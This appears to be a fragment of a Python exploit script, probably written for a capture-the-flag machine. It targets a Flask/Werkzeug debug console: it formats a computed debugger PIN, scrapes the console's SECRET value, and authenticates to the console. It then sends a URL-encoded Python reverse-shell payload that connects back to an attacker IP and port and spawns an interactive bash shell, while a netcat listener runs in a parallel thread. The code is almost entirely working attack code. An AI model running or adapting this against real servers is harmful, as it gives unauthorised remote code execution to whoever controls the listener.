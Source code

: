 ```python3

rv =None
if rv is None:
        for group_size in 5, 4, 3:
                if len(num) % group_size == 0:
                        rv = '-'.join(num[x:x + group_size].rjust(group_size, '0')
                                                  for x in range(0, len(num), group_size))
                        break
        else:
                rv = num

# print(rv)

secret = f'http://{ip}:8000/console'
s = requests.get(secret)
html_response = s.text
soup = BeautifulSoup(html_response, 'html.parser')
script_tag = soup.find_all('script')
script_content = script_tag[1].string
secret_start = script_content.find('SECRET = "')
secret_end = script_content.find('";', secret_start)
secret_value = script_content[secret_start + len('SECRET = "'):secret_end]

def listener(port):
    subprocess.call(['nc', '-lvnp', f'{revport}'])

def foothold(revip, revport):
        global secret_value, rv, ip
        console_url = f'http://{ip}:8000/console?__debugger__=yes&cmd=pinauth&pin={rv}&s={secret_value}'
        try:
                c = requests.get(console_url)
                headers = c.headers
                cookie = headers['Set-Cookie'][:-35]
                cookie_key = cookie.split('=')[0]
                cookie_value = cookie.split('=')[1]
                proxy = {"http":"http://127.0.0.1:8080"}
                foothold = f'http://{ip}:8000/console?&__debugger__=yes&cmd=import%20socket%2C%20subprocess%2C%20os%2C%20time%3B%20s%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3B%20s.connect((%22{revip}%22%2C{revport}))%3B%20os.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3Bos.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fbash%22%2C%22-i%22%5D)&frm=0&s={secret_value}'
                cookie_to_auth = {cookie_key:cookie_value}
                requests.get(foothold, cookies=cookie_to_auth, proxies=proxy)
                
        except:
                print('failed to generate correct PIN, reset machine')

t1 = Thread(target=listener, args=(revport,))
t2 = Thread(target=foothold, args=(revip, revport))
t1.start()
t2.start()
```
